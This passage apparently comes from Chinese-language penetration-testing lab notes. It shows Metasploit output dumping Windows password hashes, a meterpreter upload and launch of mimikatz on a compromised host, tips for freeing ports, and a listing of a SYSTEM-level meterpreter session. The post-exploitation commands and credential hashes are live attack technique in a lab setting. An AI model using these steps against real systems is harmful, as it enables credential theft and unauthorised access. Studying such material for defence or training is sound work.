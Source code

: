 ```
[*] /root/.msf4/loot/20201226055012_default_192.168.111.128_windows.hashes_744608.txt
[*] Dumping password hashes...
[*] Running as SYSTEM extracting hashes from registry
[*]     Obtaining the boot key...
[*]     Calculating the hboot key using SYSKEY fd4639f4e27c79683ae9fee56b44393f...
[*]     Obtaining the user list and keys...
[*]     Decrypting user keys...
[*]     Dumping password hints...
[*]     No users with password hints on this system
[*]     Dumping password hashes...
[+]     Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+]     liukaifeng01:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+]     whoami:1002:aad3b435b51404eeaad3b435b51404ee:27bb1c5ee90d9ac35a5bb53ffc20c8a8:::
```

```
meterpreter > upload /root/Desktop/mimikatz.exe c:\\
meterpreter > shell
C:\>mimikatz.exe
mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # 

```



# 其他知识点

## 如何关闭端口占用

Windows 使用 netstat -ano查看端口使用情况  kill port 关闭进程

Linux 使用 netstat -tulpen 查看端口使用情况 也可以指定查看某个端口 netstat -tulpen | grep 4444   fuser -k port/tcp 关闭进程

  lsof -i:80

   sudo kill -9 PID

## metasploit的session操作

```
msf > sessions -l

Active sessions
===============

  Id  Type                   Information                            Connection
  --  ----                   -----------                            ----------
  1   meterpreter x86/win32  NT AUTHORITY\SYSTEM @ ROOT-9743DD32E3  192.168.1.11:4444 -> 192.168.1.142:1063 (192.168.1.142)

msf > sessions -i 1
[*] Starting interaction with 1...

meterpreter > pwd
C:\
meterpreter > 
```